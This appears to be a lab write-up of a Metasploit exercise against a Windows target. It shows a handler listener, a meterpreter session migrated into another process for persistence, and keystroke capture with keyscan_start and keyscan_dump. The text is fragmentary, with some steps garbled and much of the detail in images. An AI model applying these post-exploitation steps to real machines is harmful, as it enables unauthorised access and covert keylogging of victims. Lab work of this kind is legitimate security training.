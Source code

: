 ```use multi/handler```


<img width="886" height="738" alt="image" src="https://github.com/user-attachments/assets/d0d5d104-5b6e-4bc3-bdb3-5e541e5f8233" />


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:


<img width="924" height="545" alt="image" src="https://github.com/user-attachments/assets/fdd02bda-80e9-4d54-b8b3-23e2cf05429c" />


migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

#### Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

<img width="739" height="70" alt="image" src="https://github.com/user-attachments/assets/26e14649-9976-47f1-827b-358636dfe13c" />


keyscan_dump Shows the keystrokes captured so far

<img width="713" height="303" alt="image" src="https://github.com/user-attachments/assets/d30ea719-fd01-406e-a123-653a2dcf03b9" />


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

